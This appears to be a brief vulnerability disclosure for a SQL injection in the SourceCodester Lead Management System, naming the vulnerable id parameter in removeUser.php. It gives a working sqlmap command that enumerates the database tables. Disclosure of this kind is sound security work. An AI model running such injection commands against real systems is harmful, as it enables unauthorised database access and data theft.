 vendor：https://www.sourcecodester.com/

download link：https://www.sourcecodester.com/php/15933/lead-management-system-php-open-source-free-download.html

Vulnerability trigger parameter: $id

The process of vulnerability discovery is as follows：
![image](https://user-images.githubusercontent.com/30823782/208411702-6738b92b-7e8a-4825-a6b2-c52cc868222c.png)


EXP

```
sqlmap.py -u "http://192.168.31.50/penglead/php_action/removeUser.php?id=1" --dbms=mysql -D penglead --tables
```
![image](https://user-images.githubusercontent.com/30823782/208411743-f0b9a0cd-701c-43dd-8e4c-625048c64c12.png)

